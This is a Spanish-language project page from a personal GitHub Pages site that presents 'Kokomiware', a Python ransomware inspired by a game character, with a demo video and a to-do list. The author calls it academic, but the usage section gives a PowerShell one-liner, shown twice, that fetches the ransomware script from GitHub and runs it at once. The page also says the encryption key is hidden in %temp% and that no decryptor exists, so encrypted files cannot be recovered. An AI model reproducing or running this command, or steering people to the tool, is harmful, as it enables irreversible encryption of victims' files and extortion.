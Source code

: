 ```yaml
---
layout: post
header-style: text
title: Kokomiware.
img: img/projects/kokomiware/header.webp
---
```


<!-- HTML Meta Tags -->
<meta property="og:title" content="KOKOMIWARE">
<meta name="description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:site_name" content="QuantumWavves">

<!-- Facebook Meta Tags -->
<meta property="og:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta property="og:type" content="website">
<meta property="og:title" content="KOKOMIWARE">
<meta property="og:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:image" content="https://quantumwavves.github.io/img/projects/kokomiware/header.webp">

<!-- Twitter Meta Tags -->
<meta name="twitter:card" content="summary_large_image">
<meta property="twitter:domain" content="quantumwavves.github.io">
<meta property="twitter:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta name="twitter:title" content="KOKOMIWARE">
<meta name="twitter:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta name="twitter:image" content="https://quantumwavves.github.io/img/projects/kokomiware/header.webp">


<p align="center">
<img src="/img/projects/kokomiware/kokomi-icon.jpg" alt="drawing" width="200"/><br>
</p>


### ¿Qué es Kokomiware?
Kokomiware es un ransomware escrito en el lenguaje de programación python, se hace uso de la librería `cryptography` y librerías nativas de python como lo son `OS` Y `Glob`. Kokomiware tiene como fin demostrar lo fácil que es implementar un malware de este tipo. Además de que su propósito es puramente académico y para estudio de desarrollo de malware, bajo ningún concepto debe de ser utilizado con fines maliciosos y debera ser ejecutado unicamente en maquinas virtuales en entornos controlados. Por ultimo como aclaración no soy un experto en python por lo que pueden surgir bugs. 

**Repositorio de Github:** [Kokomiware](https://github.com/quantumwavves/Kokomi-Russian-Roulette)

### Uso

#### En una sola línea 

Este procedimiento llama a un script en escrito en powershell por medio del `Invoke-RestMethod` a un recurso en línea y utiliza, `Invoke-Expression` para realizar su ejecución, todo a través de un pipe `|`

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Modo ruleta rusa

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Uso normal 


```console
.\kokomiware.exe
```
#### Desarrollo 

`(Yo recomiendo usar un entorno virtual de python)`{:.info}
```console
$ .\env\Scripts\activate
$ pip install -r requirements.txt
$ python kokomiware-fernet.py
# Versión alternativa con pyAes, mas lenta, pero con un cifrado mas seguro
$ python kokomiware-aes.py
```
### Descifrar archivos (clave)
Kokomiware genera una clave única y aleatoria para cada ejecución de la función kokomi(). Se almacena en un archivo .png en la siguiente ruta `$env:temp` o también conocido como `%temp%` con el nombre `sngmy.png`{:.warning}, El programa de descifrado aun no esta creado.

### Lista de pendientes

- [ ] Reescribir el código en otro lenguaje como `C++` o `C` con el fin de aumentar la velocidad de encriptación.
- [ ] Crear un readme con instrucciones para desencriptar.
- [ ] Crear una función de desencriptación
- [ ] Optimizar los tiempos de ejecución

### Demo

Este es un video de demostración:

<p style="text-align: center">
<video width="600" height="400" controls>
  <source src="/img/projects/kokomiware/demo.webm" type="video/mp4">
</video>
</p>

### Inspiración
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi)

